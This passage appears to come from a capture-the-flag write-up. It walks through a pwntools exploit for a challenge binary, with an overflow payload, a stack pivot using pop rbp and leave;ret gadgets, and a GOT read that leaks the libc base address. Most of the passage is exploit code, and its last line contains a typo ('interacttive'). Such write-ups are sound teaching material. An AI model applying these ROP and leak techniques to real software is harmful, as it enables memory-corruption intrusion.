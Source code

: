 ```bash
payload += p64(pop_rax) 
payload += p64(mem_cpy_got) # moved got in rax  
payload += p64(ret2cout) # from this address it moves rax into rdi and automatically sets up cout args and call cout
payload += p64(print_acc_func)

p.sendline(payload)
p.interactive()
```

this code should technically leak the value and ret to the vulnerable function again.

![Screenshot](/static/writeups/airtech/2.png)

we’re getting the leak but after leaking not the intended function that we want to call isn’t calling because `print_account_statement` function is using `leave ret` in the end which move `rbp` into `rsp` and return to that, so to deal this we put the function address on current stack and just before leaking the value `pop rbp` put address of that location where that function is stored on stack.

```bash
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
elf = context.binary = ELF("./main")
libc = elf.libc

p=process(aslr=True)

gdb.attach(p)
p.sendlineafter(b"option:",b"1")
p.recvuntil(b"message:")

pop_rax = 0x4011b5
mem_cpy_got = 0x404028
leave_ret = 0x401439
print_acc_func = 0x4011ba
pop_rbp = 0x40118d 
ret2cout = 0x401402

payload = cyclic(120)
payload += p64(pop_rbp)
payload += p64(elf.sym.data+136) # => pivoted the stack to this location 
payload += p64(leave_ret) # => mov rbp in rsp and ret
payload += p64(pop_rbp) # manually setting up rbp so that after cout, program returns to this!!
payload += p64(elf.sym.data+176) # location of return function
payload += p64(pop_rax) 
payload += p64(mem_cpy_got) # moved got in rax  
payload += p64(ret2cout) # from this address it moves rax into rdi and automatically sets up cout args and call cout
payload += p64(print_acc_func) # put this function on stack for referencing in line number 22

p.sendline(payload)
p.recvuntil(b'qaa')
libc.address = u64(p.recvuntil(b'qaa').rstrip(b'qaa')[-6:].ljust(8, b'\x00')) - 0x169cc0
log.info(f"Libc Base Address: {hex(libc.address)}")
p.interacttive()
```
